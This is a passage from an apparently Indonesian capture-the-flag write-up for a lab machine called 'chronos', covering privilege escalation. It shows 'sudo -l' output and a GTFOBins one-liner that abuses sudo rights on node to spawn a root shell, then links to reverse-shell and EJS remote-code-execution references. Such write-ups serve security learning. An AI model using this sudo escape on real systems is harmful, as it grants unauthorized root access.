 ## PrivEsc
```bash
imera@chronos:~$ sudo -l
sudo -l
Matching Defaults entries for imera on chronos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *
```
seperti biasa [GTFObins](https://gtfobins.github.com/) selalu menyediakan metode untuk para pentester melakukan privesc.
```bash
imera@chronos:~$ sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
)'do node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})

id
uid=0(root) gid=0(root) groups=0(root)
```

## References
* <https://salmonsec.com/cheatsheet/reverse_shells>
* <https://www.dcode.fr/base-58-cipher>
* <https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/>
* <https://dev.to/boiledsteak/simple-remote-code-execution-on-ejs-web-applications-with-express-fileupload-3325>
* <https://github.com/boiledsteak/EJS-Exploit>

